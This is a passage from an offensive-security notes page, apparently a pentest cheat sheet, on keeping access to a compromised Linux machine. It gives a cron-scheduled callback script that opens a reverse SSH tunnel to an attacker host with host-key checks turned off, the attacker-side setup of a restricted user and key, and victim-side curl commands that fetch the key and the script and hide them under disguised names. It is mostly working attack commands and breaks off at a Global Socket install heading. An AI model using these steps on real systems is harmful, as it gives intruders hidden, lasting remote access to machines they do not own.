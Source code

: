 

### SSH

Add a temporary rule allowing connections from your IP:

```
$ sudo iptables -A INPUT -p tcp -s 10.10.13.37 --dport 22 -j ACCEPT
```



### SSH Tunnel in Crontab

{% code title="callback.sh" %}
```bash
#!/bin/bash
if [[ `ps -ef | grep -c 2222` -eq 1 ]]; then
  /usr/bin/ssh -nNT -R 2222:localhost:22 [-oPubkeyAcceptedKeyTypes=+ssh-rsa -oHostKeyAlgorithms=+ssh-rsa] [-oServerAliveInterval=300 -oServerAliveCountMax=3] -oStrictHostKeyChecking=no -oUserKnownHostsFile=/dev/null -oIdentitiesOnly=yes -i /home/alice/.ssh/.k nopty@10.10.13.37
fi
```
{% endcode %}

Attacker's box:

```
$ sudo -i
# useradd -ms /bin/false nopty
# mkdir /home/nopty/.ssh
# ssh-keygen -f /home/nopty/.ssh/dummy_key -t ed25519 -q -N ""
# cat /home/nopty/.ssh/dummy_key.pub
# echo 'from="10.10.13.38",command="echo Only port forwarding is allowed",no-agent-forwarding,no-X11-forwarding,no-pty '`cat /home/nopty/.ssh/dummy_key.pub` > /home/nopty/.ssh/authorized_keys
# chown -R nopty:nopty .ssh
```

Victim's box:

```
$ curl 10.10.13.37/dummy_key > /home/alice/.ssh/.k
$ chmod 600 /home/alice/.ssh/.k
$ curl 10.10.13.37/callback.sh > /home/alice/.conf
$ chmod +x /home/alice/.conf
$ crontab -e
*/15 * * * * /home/alice/.conf
```



### Global Socket

* [https://www.gsocket.io/deploy/](https://www.gsocket.io/deploy/)


#### Install

Victim's box:
